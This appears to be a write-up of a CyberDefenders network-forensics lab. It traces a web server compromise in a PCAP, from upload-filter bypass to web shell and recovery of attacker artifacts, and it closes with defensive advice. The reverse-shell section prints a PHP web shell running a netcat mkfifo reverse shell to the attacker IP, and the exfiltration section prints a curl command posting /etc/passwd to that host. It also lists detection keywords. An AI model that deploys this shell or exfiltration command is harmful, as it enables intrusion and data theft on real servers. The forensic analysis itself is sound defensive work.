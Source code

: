# 🕵️‍♂️ WebStrike Lab — Official Walkthrough  

**Platform:** CyberDefenders  
**Tool Used:** Wireshark  
**Category:** Network Forensics | Web Attack Investigation  
**Objective:** Investigate a captured PCAP file to uncover attacker behavior, exploited vulnerabilities, reverse shell connection, and attempted data exfiltration.

---

In this forensic investigation, suspicious web activity was captured from a company’s web server and provided as a **PCAP file**. Analysis revealed an unauthorized **file upload**, **reverse shell execution**, and an **attempt to exfiltrate sensitive system data**.

Using **Wireshark**, the network capture was examined step-by-step to uncover how the attacker gained access, maintained persistence, and tried to steal data. This report explains the full process in a clear and structured way.

---

## 🌍 Attacker Identification & Origin

Opening the `WebStrike.pcap` file in **Wireshark** and navigating to  
`Statistics → Endpoints → IPv4` revealed two primary IP addresses:

- **Attacker:** `117.11.88.124`  
- **Victim Server:** `24.49.63.79`

![Wireshark Endpoints Screenshot](first.png)

Using [ipgeolocation.io](https://ipgeolocation.io), the attacker’s IP was traced to:

- **City:** Tianjin  
- **Country:** China  
- **Coordinates:** 39.13° N, 117.15° E  

![IP Geolocation Screenshot](second.png)

🧠 *Interpretation:*  
The attack originated from **Tianjin, China**. This insight is valuable for **geo-blocking**, **threat intelligence**, and **regional trend analysis**.

---

## 🧭 Attacker’s User-Agent

Following an HTTP stream (`Follow → HTTP Stream`) revealed the attacker’s User-Agent string:

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0


![HTTP Stream Screenshot](third.png)

🧠 *Insight:*  
The attacker spoofed a **Linux-based Firefox browser**, likely to blend in with legitimate web traffic and bypass simple detection filters.

---

## 💥 Exploited Vulnerability: File Upload Bypass

A focused Wireshark filter:
ip.src == 117.11.88.124 && http.request.method=="POST"

revealed multiple **POST requests** made by the attacker.

In the first request:
- File: `image.php`  
- Endpoint: `/reviews/upload.php`  
- Server response: **Invalid file format**

In the second request:
- File: `image.jpg.php`  
- Same endpoint  
- Server response: **File uploaded successfully**

![Malicious File Upload Screenshot](fourth.png)

🧠 *Finding:*  
The attacker bypassed the server’s validation by appending `.jpg` before `.php`.  
This allowed a **malicious PHP script** to be uploaded — a **web shell** that grants remote access.

---

## 📁 Malicious Upload Directory

Subsequent HTTP responses showed:

GET /reviews/uploads
→ 301 Moved Permanently → /reviews/uploads/


This confirmed that all uploaded files were stored under:


![Upload Directory Screenshot](fifth.png)

🧠 *Interpretation:*  
The directory `/reviews/uploads/` was the target storage path for all user-uploaded (and now malicious) files.

---

## 🔄 Reverse Shell Analysis

Examining the uploaded web shell (`image.jpg.php`) revealed embedded PHP code:

```php
<?php
system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f");
?>


This command created a reverse shell using nc (netcat), connecting back to the attacker’s IP on port 8080.

🧠 Insight:
The attacker used port 8080 to establish remote command execution from the compromised web server.

📤 Data Exfiltration Attempt

Monitoring traffic on the reverse shell connection with this filte

(tcp.port==8080) && (ip.src==24.49.63.79)

curl -X POST -d /etc/passwd http://117.11.88.124:443/

🧠 Interpretation:
The attacker attempted to exfiltrate the /etc/passwd file to their machine over port 443.
Though this file doesn’t store password hashes, it lists user accounts — crucial for privilege escalation and reconnaissance.

🧠 Key Findings
Parameter	Value / Description
Attacker IP	117.11.88.124
Origin City	Tianjin, China
User-Agent	Mozilla/5.0 (Linux x86_64; Firefox/115.0)
Uploaded Web Shell	image.jpg.php
Upload Directory	/reviews/uploads/
Reverse Shell Port	8080
Exfiltrated File	/etc/passwd
🛡️ Defensive Recommendations

Harden File Uploads: Enforce strict validation on MIME type, extension, and content.

Deploy WAF Rules: Block .php, .asp, and .jsp uploads to user-accessible folders.

Restrict Egress Ports: Disallow unnecessary outbound connections (e.g., port 8080).

Monitor Reverse Shell Patterns: Detect keywords like nc, bash -i, or curl -d /etc/passwd.

Perform Directory Audits: Regularly inspect /reviews/uploads/ for unknown scripts.

Geo-Blocking: Limit access from high-risk countries.

Improve SIEM Detection: Create correlation rules for multiple failed upload attempts.

🧩 Lessons Learned

Attackers often exploit file upload vulnerabilities to gain code execution.

Reverse shells exploit outbound connections to bypass firewall restrictions.

Simple /etc/passwd exfiltration can expose valuable reconnaissance data.

Network forensics and packet analysis are key to understanding the full scope of an intrusion.

🧰 Skills Demonstrated

Network Forensics (Wireshark)

Reverse Shell & Data Exfiltration Analysis

HTTP/TCP Packet Inspection

Web Shell Exploit Detection

Threat Attribution & Geo-Intelligence

Cybersecurity Reporting & Documentation

👨‍💻 Author

Mohammad Sharuf Ali
📍 Abu Dhabi, UAE
📧 alimdsharuf86@gmail.com

🔗 LinkedIn

💻 GitHub
